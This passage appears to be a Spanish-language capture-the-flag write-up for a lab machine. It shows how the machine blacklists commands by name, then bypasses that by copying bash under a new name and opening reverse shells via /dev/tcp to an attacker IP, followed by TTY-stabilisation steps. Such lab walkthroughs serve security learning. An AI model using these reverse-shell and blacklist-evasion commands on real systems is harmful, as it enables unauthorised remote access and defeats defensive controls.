 <div class="figure">
<img src="images/calamity-intrusions.png" alt="fichero intrusions" width="90%" />
<p class="caption">(\#fig:unnamed-chunk-11)fichero intrusions</p>
</div>

Vemos que el comando `nc` esta BlackListeado y que logea el Proccess Kill en este fichero. El problema de esto es que se puede
que los comandos BlackListeados se controlan con los nombres mismo (no permite `nc, python, bash`). Pero que pasa si copiamos el 
binario bash y que le ponemos un nombre diferente.

1. Nos ponemos en escucha por el puerto 443 en la maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

    ```bash
    cp /bin/bash /dev/shm/s4vitar
    ls /dev/shm/s4vitar
    /dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1
    /dev/shm/s4vitar -c "/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"
    /dev/shm/s4vitar -c '/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'
    ```

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```
